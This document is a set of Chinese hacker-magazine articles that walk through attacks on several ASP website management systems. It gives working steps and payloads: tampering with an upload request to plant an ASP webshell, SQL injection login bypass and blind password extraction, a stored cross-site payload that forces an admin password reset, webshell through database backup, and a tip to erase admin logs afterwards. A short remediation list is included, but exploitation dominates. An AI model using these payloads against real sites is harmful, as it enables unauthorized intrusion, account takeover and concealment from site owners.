- 从本文可以学到：
- 赛特文章管理系统漏洞分析

- 漏洞影响：赛特文章管理系统所有版本
- 漏洞文件：wqerf213asdfuqwenxcvudrtbdsfgasd.asp
- 漏洞类型：上传漏洞
- 漏洞关键代码：

```vbscript
set upload=new upload_5xSoft ''建立上传对象
formpath=upload.form("filepath") //获取文件夹名
''在目录后加(/)
set fso=Server.CreateObject ("Scripting.FileSystemObject")
fpath=server.MapPath (""&formpath&"")
if fso.FolderExists(fpath) then '文件夹存在
else
'文件夹不存在,则创建文件夹
fso.createfolder(fpath) //创建文件夹
end if
```

**漏洞分析：**
FilePath 未做任何处理直接获取提交上来的值，这样就可以随意给 Filepath 函数赋值，构成漏洞。

- 测试环境：本地架设 IIS
- 利用过程：
- 1.用浏览器打开 http://127.0.0.1/upfile/sitedde43vc125jve4g45f.asp，如图1。
- 2.更改asp小马后缀为".gif"上传并抓包，抓包结果如图2：
- 3.更改抓到的数据包，关键处如下：

```text
-----------------------------7d825130120550
Content-Disposition: form-data; name="filepath"

2008-5-29 //这里更改为asp.asp
-----------------------------7d825130120550
```

- 4.用"零号黑色提交工具"(也可用NC等数据包提交工具)提交修改过的数据包，结果如图3。
- 5.找到返回信息中的文件路径，在浏览器访问文件，得到webshell，如图4。

文章到了这里大家应该知道做什么了吧!写大马、提权、拿服务器、ARP嗅探等等。现在很多文章都是授鱼的文章，而本文则授渔!

(文章中用到的WSockExpert.rar,零号黑色提交工具.exe,网蚁小马.asp已经收录在光盘中。)

**编辑点评：**
由于该程序对上传文件校验不严，导致可以直接抓包修改后再上传我们的木马，进而很方便的就得到webshell。这个漏洞比较简单，但同时又是危害性最大的。

# 挖掘迅易企业网站管理系统注入漏洞

从本文可以学到：
- 1、迅易企业网站管理系统漏洞分析
- 2、绕过登录验证

最近到中国站长网转了一圈，看一下有没有好的源码，发现迅易企业网站管理系统用的人挺多，于是马上下载了下来。这套源码的页面做的不错，后台功能也很强大，就是不知道安全性如何，于是便对这套系统进行了一下安全检测，结果发现源码在安全上的不足，下面就随我来检测一下它的安全性吧！

## 一、原理分析

首先是黑盒测试，发现没有明显的注入漏洞和暴库漏洞，不过这套源码好像有点问题，在提交注入时会转到NoSqlHack.Asp文件上来。这个文件是SQL通用防注入程序，用来记录用户的非法操作，但是此页面在处理的过程中会报错，提示缺少对象。我感觉现在的黑盒测试基本没有什么用，想想现在那个网站没有自己的防注入程序？真正想了解代码有没有漏洞，还得去看源码，我们看一下后台登录的源码，因为在这里若没有处理好，说不定就可以用 a' or 'a'='a 这样的注入代码直接登录后台了，登录页面adminlogin.asp的部分源码如下：

```html
<form action="CheckLogin.asp" method="post" name="AdminLogin" id="AdminLogin" onSubmit="return CheckAdminLogin()">
<input name="LoginName" type="text" maxlength="12" >
<input name="LoginPassword" type="password" maxlength="12" >
<input name="VerifyCode" type="text" maxlength="4" >

<input name="submitLogin" type="image" src="images/login_menu.jpg" width="102" height="37">
```

登录页面实际上是一个html页面，用来提交用户名和密码，不过这个html也竟然是一个验证页面，在点击提交时要首先经过CheckAdminLogin()函数的检测，这个函数在那里呢？在这个文件的开头有这么一句“`<script language="javascript" src="../Script/Admin.js"></script>`”，看来这个函数十有八九在admin.js文件里面了。打开admin.js文件就会发现这个函数了，部分代码如下：

```javascript
function voidNum(argValue)
{
var flag1=false;
var compStr="1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-";
var length2=argValue.length;
for (var iIndex=0;iIndex<length2;iIndex++)
{
var temp1=compStr.indexOf(argValue.charAt(iIndex));
if(temp1==-1)
{
flag1=false;
break;
}
else
{ flag1=true; }
}
return flag1;
}
// 检查管理员登录----------------------------------
function CheckAdminLogin()
{
var check;
if (!voidNum(document.AdminLogin.LoginName.value))
{
alert("请正确输入管理员名称（由0-9,a-z,_-任意组合的字符串）。");
document.AdminLogin.LoginName.focus();
return false;
exit;
}
if (!voidNum(document.AdminLogin.LoginPassword.value))
{
alert("请输入管理员密码。");
document.AdminLogin.LoginPassword.focus();
return false;
exit;
}
if (!voidNum(document.AdminLogin.VerifyCode.value))
{
alert("请正确输入验证码。");
document.AdminLogin.VerifyCode.focus();
return false;
exit;
}
return true;
}
```

不难看出此函数是进行用户名和密码安全检测的，此函数相当于一个过滤函数，规定用户名和密码只能是字符和数字的结合，我们注入必不可少的单引号是无法通过此函数的检测的。

难道说在这里注入已被彻底地封堵了？答案是“no”，程序作者一定没有想到本地提交吧！这可算是写代码的疏忽了，这个页面只负责把用户名和密码提交给checklogin.asp来处理，我们自己构造一个html页面进行本地提交，把下面代码保存为html网页：

```html
<form action="http://localhost/web/xunyi/manage/CheckLogin.asp" method="post" name="AdminLogin" id="AdminLogin" >
<input name="LoginName" type="text" maxlength="100" >
<input name="LoginPassword" type="password" maxlength="100" >
<input name="login" value="login" type="submit" width="102" height="37">
</form>
```

这样就可以简单绕过验证了，一般登录代码只过滤一次，也就是说checklogin.asp十有八九不会再有过滤代码了，checklogin.asp的部分代码如下：

```vbscript
<!--#include file="../Include/Const.asp"-->
<!--#include file="../Include/ConnSiteData.asp"-->
<!--#include file="../Include/Md5.asp"-->
<BODY>
<%
dim LoginName,LoginPassword,AdminName,Password,AdminPurview,Working,UserName,rs,sql
LoginName=trim(request.form("LoginName")) '只过滤了空格
LoginPassword=Md5(request.form("LoginPassword"))
set rs = server.createobject("adodb.recordset")
sql="select * from Ameav_Admin where AdminName='"&LoginName&"'" '用户名查询
rs.open sql,conn,1,3
if rs.eof then
response.write "<script language=javascript> alert('管理员名称不正确，请重新输入。');location.replace('AdminLogin.asp');</script>"
response.end
else
AdminName=rs("AdminName")
Password=rs("Password")
AdminPurview=rs("AdminPurview")
Working=rs("Working")
UserName=rs("UserName")
end if

if LoginPassword<>Password then
response.write "<script language=javascript> alert('管理员密码不正确，请重新输入。');location.replace('AdminLogin.asp');</script>"
response.end
end if

if session("VerifyCode")<>request("VerifyCode") then
response.write "<script language=javascript> alert('您输入验证码错误，请返回重新登录！');location.replace('AdminLogin.asp');</script>"
response.end
end if

if not Working then
response.write "<script language=javascript> alert('不能登录，此管理员账号已被锁定。');location.replace('AdminLogin.asp');</script>"
response.end
end if
'省略…………
```

这个文件并没有包含NoSqlHack.Asp文件，不然提交注入代码是又要跳到NoSqlHack.Asp页面了。上面的代码基本上没有经过什么过滤，是先对用户名进行sql查询，若用户名不存在则弹出“管理员名称不正确”对话框，然后重定向到登录页面；若用户名正确，再用查询的结果对密码进行验证；以此类推。

分析到这，一个崭新的注入漏洞已经诞生了，我们先对用户名处写注入语句，密码和验证码都可以不写。若注入语句是错误的，就会弹出“用户名”错误的对话框，然后返回；若注入语句是正确的，那么开始验证密码。此时我们的密码没有填写，这一关一定过不去啦！会弹出“密码错误”对话框，然后返回。现在思路已经很清楚了，那就是根据返回信息的不同来判断注入语句是否正确。

## 二、实战

原理是有了，下面来实战一下，打开我们的本地提交页面，在用户名处写入语句：a' or 'a'='a，如图1。

上面在checklogin.asp对用户名进行查询时放到sql语句里面就是：“select * from Ameav_Admin where AdminName='a' or 'a'='a'”，无容置疑，这句一定是正确的语句，提交后应该弹出“管理员密码不正确，请重新输入。”对话框，提交后如图2。

通过返回的信息证明我们构造的注入语句成功执行，若提交用户名 a' or 'a'='b，这句放到查询语句里面一定是错误的，则会弹出“管理员名称不存在，请重新输入。”对话框，然后返回，如图3。

Ok!!相信大家对手工注入已经很熟悉了，下面就可以用 a' or (select top 1 asc(mid(password,1)) from Ameav_Admin)>0 and 'a'='a 这样的语句来探测密码了，具体注入过程不再多讲，相信大家都会。通过注入得到md5加密的密码，到md5破解网站破解一下，用密码登录后台，后台界面如图4。

在后台拿shell的过程中，发现数据库备份不能用，图片上传方面好像有点问题，可以自定义上传路径，不过在实际的抓包过程中抓不到上传路径，好了，大家有兴趣的可以在这个基础上挖掘一下，希望你有所收获。

**编辑点评：**
最危险、最不负责任的校验莫过于选择JS在客户端做检验，虽然这样可以减轻服务器的压力，但是只要有一点安全意识的人都知道，可以使用本地构造页面，去掉JS校验，从而达到一些‘特定’的目的。

## 网软漏洞连连看之仿阿里巴巴网上贸易b2b电子商务行业门户网站管理系统&生成HTML静态版

从本文可以学到：
多个漏洞的分析和利用

看了0805期的文章，突然发现《整蛊商贸通V8.0》中写的东西很多和我分析过的网软“仿阿里巴巴网上贸易b2b电子商务行业门户网站管理系统”是那么的相似(同样也是仿阿里巴巴)，但也还有很多是不一样的，也许真的系统不同，代码也不同吧(汗!!)!

# 一、注册上传

这个没有什么说的，和0805期《整蛊商贸通V8.0》完全一样，不懂的可以看以前的杂志。

# 二、注射漏洞

其实我刚开始以为这个系统是没有注射漏洞的，因为我刚开始看代码时，几乎在所有传入参数的文件头都有cint(request.querystring("id"))和if id="" or IsNumeric(id)<>true这样的过滤，但也仅仅是几乎而已！

文件ob_qz_view.asp、yp_vlist.asp和new_list.asp的相关代码如下：

```asp
<%set rs=server.createobject("adodb.recordset")
sql="select * from SMT_Job_qz where SMT_id="&request("id")&" and SMT_key=1 and SMT_key1=1 and SMT_key2=1" '这里的ID没经过任何过滤
rs.open sql,conn,1,1
if rs.eof then
response.write "<br><br><div align=center>此内容不存在</div>"
response.end
```

yp_add_list.asp、yp_add_vlist.asp和yp_list.asp这三个文件都有这样的起始代码：

```asp
<%id=request("id")
if id="" then '接受ID值,但只判断是否为空!
response.write"请输入正确的企业ID号！"
response.end
end if
set rs=server.createobject("adodb.recordset")
sql="select * from SMT_ypaddtwo where SMT_addtwo_id="&id&" order by SMT_date desc" '这里ID直接就进入了查询
rs.open sql,conn,1,1
addone=rs("SMT_addone")
addtwo=rs("SMT_addtwo")
addone_id=rs("SMT_addone_id")
rs.close%>
```

任何一个文件都可以很简单的利用，直接放到工具里跑就可以了!《黑手》上关于这类操作的文章很多，我这里就不再多说了，如图1。

这里需要注意添加表smt_admin、字段smt_nickh和smt_password才可以猜解的出来。

search_ypdt.asp, search_yp.asp, search_sca.asp, search_cp.asp, search_zh.asp这几个搜索文件的代码其实都是一样的，就是查询的表不同：

图1 用工具跑出用户名和密码

```asp
<%word=request("word")
key=request("key")
ypxxone_id=request("ypxxone_id")
ypxxtwo_id=request("ypxxtwo_id")
addone_id=request("addone_id")
addtwo_id=request("addtwo_id")
if ypxxone_id<>"" then
xxsort=" and SMT_ypxxone_id="&ypxxone_id&""
if ypxxtwo_id<>"" then
xxsort=xxsort&" and SMT_ypxxtwo_id="&ypxxtwo_id&""
end if
end if
'======== 省略部分代码 ========
<table width="600" border="0" cellspacing="0" cellpadding="10">
<%sql="select * from SMT_cp where SMT_key=1 and SMT_key1=1 and SMT_key2=1 and (SMT_cpname like'%"&word&"%' or SMT_cpsm like'%"&word&"%') "&xxsort&" order by SMT_id desc"
'可以看出word没有过滤
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,1
if rs.eof and rs.bof then
response.write "<tr><td height=50>没有找到能和<font color=red>"&word&"</font> 匹配的内容，请尝试其它搜索。</td></tr>"
```

关于搜索型的注射我在0805期的文章中已经说的很明白了，这里就不再赘述了，如图2。

当然这里没有写明取得word的具体方法，我们可以构造“http://目标网址/search_yp.asp?key=yp&word=网”这样的连接交给工具（但是啊D却好象检测不出来）来检测！

我想前面的几个文件的漏洞都过于明显，只要有点安全意识的管理员都会去修改，还好让我找到了一个一般人都不会怎么注意的找回密码的文件lookuppass.asp，代码如下：

图2 搜索型的注射

```asp
<%action=request("action")%>
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title><%=citytitle%></title>
</head>

<body topmargin="0">
<%SMT_TOP%>
<table width="760" border="0" cellspacing="0" cellpadding="0" align="center" bgcolor=#ffffff>
<%if action="passone" then
user=trim(request("user"))
qylx=request("qylx")
'检查用户存在
set rs=server.createobject("adodb.recordset")
select case qylx
case 0
rs.open "select * from SMT_yp where SMT_user='"&user&"'",conn,1,1
if rs.eof then
response.write "<script>alert('此用户名不存在或已被关闭，请重新输入！');history.go(-1)</script>"
response.end
else
mail=rs("SMT_mail")
SMT_question=rs("SMT_question")
SMT_answer=rs("SMT_answer")
end if
rs.close
case 1
rs.open "select * from SMT_job_qz where SMT_user='"&user&"'",conn,1,1
if rs.eof then
response.write "<script>alert('此用户名不存在或已被关闭，请重新输入！');history.go(-1)</script>"
response.end
else
mail=rs("SMT_email")
SMT_question=rs("SMT_question")
SMT_answer=rs("SMT_answer")
end if
rs.close
end select
set rs=nothing
```

这个可以看出user也只是判断是否为空,就进入查询了!不过构造**http://127.0.0.1/b2b/mh/LookUpPass.asp?qylx=1&action=passone&user=andywen**(这里的用户名要是存在的!)放进工具却怎么也查不出来，如图3。

但是，手工注射却可以，如图4，切记，不可以太依赖工具啊!

图3 工具检测不到

图4 手工检测到漏洞

关于注入就写这么多了，什么类型的注入漏洞都有了(别以为没有cookies注入哦，自己思考下!)，再写下去，老编说我骗稿费了!

# 三、跨站漏洞

这个我也不想说什么了，和注入一样，到处都是洞，我就举几个例子吧! /user/cp_save.asp文件代码如下:

```asp
cpname = Request("cpname")
sortid = Request("sortid")
cpjg = Request("cpjg")
jgdw = Request("jgdw")
cpjl = Request("cpjl")
cpbh = Request("cpbh")
if cpbh="" then cpbh=null
cpcd=Request("cpcd")
if cpcd="" then cpcd=null
cpgg=Request("cpgg")
if cpgg="" then cpgg=null
if Request("ypxxtwo_id")="" then
ypxxone_id=Request("aaa")
ypxxtwo_id=Request("bbb")
else
ypxxone_id=Request("ypxxone_id")
ypxxtwo_id=Request("ypxxtwo_id")
end if
cpjm=Request("cpjm")
cpsm=Request("cpsm")
if cpsm="" then cpsm="暂无"
pic=Request("SMT_pic")
if pic="" then pic="img/null.gif"
========省略部分代码============
set rs=Server.CreateObject("Adodb.Recordset")
sql="select * from SMT_cp where SMT_yp_id="& session("id")
rs.open sql,conn,1,3

rs.addnew
rs("SMT_pic")=pic
rs("SMT_cpname")=cpname
rs("SMT_sortid")=cint(sortid)
rs("SMT_cpjg")=cpjg
rs("SMT_cpjgdw")=jgdw
rs("SMT_cpjl")=cpjl
rs("SMT_cpbh")=cpbh
rs("SMT_cpcd")=cpcd
rs("SMT_cpgg")=Request("cpgg")
rs("SMT_ypxxtwo_id")=ypxxtwo_id
rs("SMT_ypxxone_id")=ypxxone_id
rs("SMT_cpjm")=cpjm
rs("SMT_cpsm")=cpsm
rs("SMT_key1")=application("citycpkey")
rs("SMT_yp_id")=session("id")
rs("SMT_AlipayPymoney")=Request("pymoney")
rs("SMT_AlipayKdmoney")=Request("kdmoney")
rs("SMT_AlipayEmsmoney")=Request("emsmoney")
rs.update
rs.close
set rs=nothing
conn.close
set conn = nothing
%>
```

可以看出，基本上什么过滤都没有的!我们可以为所欲为!
出库文件cp_list.asp、cp_view.asp文件代码如下:

```asp
set rs1=server.createobject("adodb.recordset")
sql1="select * from SMT_yp where SMT_id="&rs("SMT_yp_id")
rs1.open sql1,conn,1,1
if not rs1.eof then
goname=rs1("SMT_user")
goid=rs1("SMT_id")
coname=rs1("SMT_coname")
addtwo_id=rs1("SMT_addtwo_id")
svip=rs1("SMT_vip")
QQ=rs1("SMT_oicq")
set rs2=server.createobject("adodb.recordset")
sql2="select * from SMT_ypaddtwo where SMT_addtwo_id="&addtwo_id
rs2.open sql2,conn,1,1
coadd=" <font color=1587DE>["&rs2("SMT_addone")&"/"&rs2("SMT_addtwo")&"]</font>"
rs2.close
end if
rs1.close%>
```

```asp
sql="select * from SMT_cp where SMT_id="&id&" and SMT_key=1 and SMT_key1=1 and SMT_key2=1"
rs.open sql,conn,1,1
if rs.eof then
response.write "<script>alert('操作出错，下面是产生错误的可能原因：\n\n2此内容不存在或已过期');history.go(-1);</script>"
response.end
else
conn.execute("update SMT_cp set SMT_htc=SMT_htc+1 where SMT_id="&id)
cpname=rs("SMT_cpname")
cpbh=rs("SMT_cpbh")
cpcd=rs("SMT_cpcd")
cpjg=rs("SMT_cpjg")
cpjgdw=rs("SMT_cpjgdw")
cpjl=rs("SMT_cpjl")
cpgg=rs("SMT_cpgg")
cpjm=rs("SMT_cpjm")
cpsm=rs("SMT_cpsm")
pic=rs("SMT_pic")
cpdate=rs("SMT_date")
yp_id=rs("SMT_yp_id")
ypxxtwo_id=rs("SMT_ypxxtwo_id")
end if
rs.close
sql="select * from SMT_ypxxtwo where SMT_ypxxtwo_id="&ypxxtwo_id
rs.open sql,conn,1,1
ypxxtwo=rs("SMT_ypxxtwo")
ypxxone=rs("SMT_ypxxone")
ypxxone_id=rs("SMT_ypxxone_id")
rs.close%>
```

这样我们可以很容易的进行跨站，如图5。

当然不仅仅能跨站而已，在破解不出管理员密码的时候也可以用来添加管理员用户（这套系统有个恢复admin密码为“123“的功能，这样利用起来就更简单了！）,admin\administrator\administrator.asp文件相关代码如下：

```asp
request("action")="pass" then
set rs=server.createobject("adodb.recordset")
sql="select * from SMT_admin where SMT_id="&request("id")&""
rs.open sql,conn,1,3
if not(rs.bof and rs.eof) then
rs("SMT_password")=md5("123")
rs.update
end if
rs.close
set rs=nothing
response.redirect "administrator.asp"
%>
```

我们可以在能跨站的地方写上如下跨站代码<iframe>http://127.0.0.1/3.asp height=0 </iframe>，虽然这里有长度限制，但我们可以把网页另存，然后修改“产品名称：”后的INPUT后的 maxLength=400（一定够用了），然后在你登录过的浏览器中打开（权限继承），在3.asp中写入如下代码：

```asp
<%
response.write"<script>window.open('http://127.0.0.1/b2b/mh/admin/administrator/administrator.asp?action=pass&id=1','_parent')</script>"
%>
```

这样管理员一浏览我们的跨站代码页面，就会恢复数据库中id为1的管理员密码为“123”，我们就可以进入后台了。可是实际操作中却没有实现，有以下几个问题：1、跨站后源代码中有跨站代码，显示的内容为about:blank，如图6。

administrator.asp中没有规定接受数据的方式，但直接在后台的浏览器中浏览却无法显示！实在是不明白，等待小编的解释……（小编眼巴巴的：真的没明白这2个问题是啥意思，囧~）

## 四、进入后台拿 webshell

## 1、数据库备份

进入后台以后很容易就可以拿到webshell了，数据管理中的数据库管理，可以备份数据库。虽然数据库中有防下载表，但是这里的路径和备份的名字都可以自己修改，也就是说，我们可以直接上传一个改名后的shell文件，然后备份就可以得到webshell（路径为http://目标网站/后台文件夹名/system/mdbback/back.asp），如图7。

## 2、上传漏洞

和0805期的《“网软天下”网尽天下的伤痛》中讲述的一样（真是一家亲啊，还好这里没有使用统计插件-_-！）！

# 五、漏洞补救

- 1. 注册上传：在后台系统设置中禁止注册含有特殊字符的名字，也可以用replace函数过滤掉“.”、“%”、“/”和“\”就可以了！
- 2. 注入漏洞：这个系统的文件是不是过滤的很好吗？cint(request.querystring("id"))和if id="" or IsNumeric(id)<>true 如果都写成这样，再过滤掉单引号（’）、百分号（%）再include一个防注入系统以后，我们还能怎么样呢？不过，有一片木板漏水的水桶能装多少水呢？
- 3. 跨站漏洞：还是运用replace函数，把<、>、\、/、’过滤掉。
- 4. 后台：不得不承认这个系统的后台功能非常的强大，防护也做的很好，但是只要能进入后台，我们就很容易地得到 webshell，所以这里只能把前台的安全做得完美一些了，当然你也可以禁用备份，也可以把修改上传的代码删除！

哦！对啦！这个后台有动作日志，不管是前、后台都会记录，如图 8，记得擦 PP 哦！



这个系统和前面的许多程序十分相似，就不仔细地分析了，来看看不太一样的！首先拿到这个系统的时候我看了一下源代码，发现有很多都进行了加密处理，代码如下：

```vbscript
<%@ LANGUAGE = VBScript.Encode %>
<%#@~^KQAAAA==@#@&P~9IDl{ald4'rR zRPV);Z连接数据库路径,对?5J无效PjwcaAA==^#~@%>
<%#@~^KAYAAA==@#@&db.;./YbY*n'UYCDD5nCM~;DCDDHW
04"Ax95nl.saX[HKUY4^naA/+C.1tLW@#@&i/ObY*f"+asl+mK 60Cm+;I
n/DRsK . h ' / D K o V n E * # @ # @ & @ & i J Y m D o E l Y x ]
ws1lnjKnXYVD+sE dYCsGDs'E]DIDDe+mdJ*b@#@&i2 N e + C
{Inw^Cm {PnXY!.n8En/D ww.s'r2x95 CDR#b@#@&d3U9HW O t
{I+asCm {:+aYc. . ;+kORwW.hvJ2U[tWUY4E*#@#@&d 6wk+m.
m4oG''+2smm+|P+XY'Mn5E ./DRoW.hvJn6ad+mD*4TWJbb@#@&7?
DCMY\KxDt'"+asl+mK 60Cm+; In/DRsK.h'r7Dl.Y\G
Y4J*b@#@&dnaaNIOn{?OIMOI+cd[rOJL?DCDDHgXDt@#@&i+6a|ID++ [x2
NI+CD'E J'2 { H K x 0 4 @ # @ & @ & d
kWPkObYs 'rJPdT U@#@&d*PkYrO*f"+asl+mK 60Cm+;I
[Pb0@#@&7PdnDP./{d+M\n.cZDnCD+64Nn1Ycrl9Wn(RMnmKD[/
Yeb@#@&dk5V{J/ snmDCPWDGH,Xr6bcXT[naaWPA4 DnPk4
{F"mx9PYbY"npKV+,BYEL/YbOV [JUvE@#@&d@#&7kw~ 62NmO+@!
@*+ErPIU[,+aw9CD+n N @ J @ J
Ot X@#@&i+a29lY x+XwNmOn(rO8J@#&7nXw[IDn+
NxnNxWNcO +UNLE FE@#@&ik0,fmOI(Id+jYz' F,Ot x@#@&7"/sV{/
5V'E,PCX9"'(+Lr flOn,P8+DA +U,Br[+Xw9CY [EB,PCU9PPEE
[ 6w9CO+ x9[EBbE@#@&7P s/ @#@&7./;sxk, s[r'mx[.'
{+obxGCY P*4 YAn xP[E[ 6w9CO+LJ"IP,PJLn6AnCO +X
['rabJ@#@&,P'i+ Npb0@#@&@&d x[Pb0@#@&@&,PPi./cWw U"/
sVBmgXUS8"q@#@&db0*A 4WWW]wU!rE,Y4 x@#@&d,h 8W60mW
'T@#@&d+ [pB0 @#@& @ & 7 ^ k m b x O ' A n
(WW0]Gx*@#@&ik0"b'+pd4 x@#@&d,d+kwKU/ R DbYncr@!
Ym8V P4K.[+M'8P8o^G^W.'[3GAG3{,4W.[ D^W^GM'.
GfGffGPmskTxXm xOnMpm sValN9ruO{},mnVsdal'K l Z P a r 9 Y t X E r G
{%rE@*!OM@*@!YN*@JL*tmxL+1t.cUYwa.tmN: b'J@iZDN@*@!
&OM@*@!zDC4^+@*E*@#@&7~M+dwKUK+ Ax9'@#@&i^+/nk6P'r
{FPD4+ @#@&i"rD /awU/n qDlY cJ@!YC8*+P8GMNnd{q,4L1W'Wd{aA
{2F2[P(W.[ DmKswM'aG99fGf,isklu[MNXnd,mns^wl[bxL"Z"1+s'/almbxTx|,
hrNDTxErGGREJ@*!YM@*@!Y9@*r[tCUT+tmc>dW2. Inhn*E@!
JO9@*@!JYM@*@!JYm8V @*E*@#@&7",P'7+d*@#@&d,n/aW
/nR ,bYN'rE@#@&7n NPrW@#@&^+tQBAA==^#~@%>
```

其实这种类型的加密非常常见，我们可以看出文件的头部有一个明显的标志 `<%@ LANGUAGE = VBScript.Encode %>`，说明这个文件用了 VBScript.Encode 加密（《精通黑客免杀》里有讲解），有很多的工具都可以对这种加密进行解密，我们这里就用 asp decode 特别版，如图 9。



运行工具找到文件目录选择反编译，执行批量转换，然后就可以在目录下找到解密的文件了，上边代码解密后如下：

```asp
<%
dim stitle, StartYear, StartMonth, EndYear, EndMonth, expsearchgo
stitle= Replace_Text (request.Form("stitle"))
StartYear=Replace_Text (request.Form("StartYear"))
EndYear=Replace_Text (request.Form("EndYear"))
EndMonth=Replace_Text (request.Form("EndMonth"))
expsearchgo=Replace_Text (request.Form("expsearchgo"))
StartMonth=Replace_Text (request.Form("StartMonth"))
expdate=StartYear&"-"&StartMonth
expdateend=EndYear&"-"&EndMonth
if stitle="" then
stitle="展会"
end if
set rs=server.CreateObject("adodb.recordset")
sql="select * from yixiang_expo where sh=1 and title like '%"&stitle&"%'"

if expdate<>"-" and expdateend<>"-" then
expdate=expdate&"-1"
expdateend=expdateend&"-1"
if Database_type=1 then
sql=sql&" and (beginDate between '"&expdate&"' and '"&expdateend&"')"
else
sql=sql&" and (beginDate between #"&expdate&"# and #"&expdateend&"#)"
end if
end if
rs.open sql,conn,1,1
if weboff_on="" then
weboff_on=0
end if
ci=cint(weboff_on)
'----------------- 省略部分代码 -----------------
```

我们可以看见这里接收到的数据都用了 `Replace_Text` 这样一个函数进行了过滤，我们就跟过去看下是怎么写的 `inc/safe.asp`：

```asp
function Replace_Text(fString)
if isnull(fString) then
Replace_Text=""
exit function
else
fString=trim(fString)
fString=replace(fString,">","")
fString=replace(fString,"<","")
fString=replace(fString,"'","")
fString=replace(fString,";","")
fString=replace(fString,"--","")
fString=server.htmlencode(fString)
Replace_Text=fString
end if
end function

Function Chkrequest(Para)
Chkrequest=False
If Not (IsNull(Para) Or Trim(Para)="" Or Not IsNumeric(Para)) Then
Chkrequest=True
End If
End Function
```

`function Replace_Text()` 看来好像是用来防止跨站的，不过不怎么样，只要我们把跨站代码进行编码就能很容易地绕过了。如果这里有 `fString=replace(fString,"%","")`、`fString=replace(fString,"'","")` 和 `fString=replace(fString,"CHR(","")` 就更安全了，但是这里的 `fString=replace(fString,"'","")` 却防护文本型的注入！而且还有一个 `Chkrequest()`，看来想得到账户和密码还是不容易的！只有继续往下找了！最后在 `about` 目录下的 `about.asp` 中看到了这样的代码：

```asp
<%
id=Replace_Text(request("id")) '用Replace_Text过滤ID
set rs=server.createobject("adodb.recordset")
sql="select * from Yixiang_worldec_about where id="&id&""
Set rs= Server.CreateObject("ADODB.Recordset")
rs.open sql,conn,1,1
if rs.eof then
response.write"<br><br><span align=center class=s>暂未找到相关信息</span>"
else
%>
```

我们前边说了这个函数可以用来防护文本型的注射，而这里的 ID 为数字型，所以对我们来说根本没有任何的影响！直接交给工具（添加 `Yixiang_worldec_master` 表段）就可以检测出来了，如图 10。

